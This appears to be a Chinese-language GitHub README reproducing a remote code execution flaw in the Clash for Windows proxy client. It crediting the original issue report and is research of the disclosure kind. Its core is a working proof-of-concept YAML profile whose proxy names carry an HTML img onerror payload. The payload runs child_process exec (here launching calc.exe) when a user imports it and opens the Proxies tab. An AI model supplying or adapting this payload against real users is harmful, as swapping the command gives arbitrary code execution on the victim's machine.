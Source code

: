 # Clash_for_Windows-
Clash_for_Windows远程代码执行漏洞:

1. clash介绍

A Windows/macOS/Linux GUI based on Clash and Electron.

2. 漏洞复现



从以下链接下载Windows版本：
https://github.com/Fndroid/clash_for_windows_pkg/releases

在windows10虚拟机中打开：

2.2 poc:

port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
  - name: abc
    type: socks5
    server: 127.0.0.1
    port: "8088"
    skip-cert-verify: true

proxy-groups:
  -
    name: <img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: select
    proxies:
    - a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    
    
    导入该poc：
    
    
    在当前界面点击：Proxies
    
    
    此时弹出计算器，漏洞利用成功。
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    原漏洞发现作者pr链接：

https://github.com/Fndroid/clash_for_windows_pkg/issues/2710 里面包含了poc和复现方法。

本次本地复现来源于上述链接！
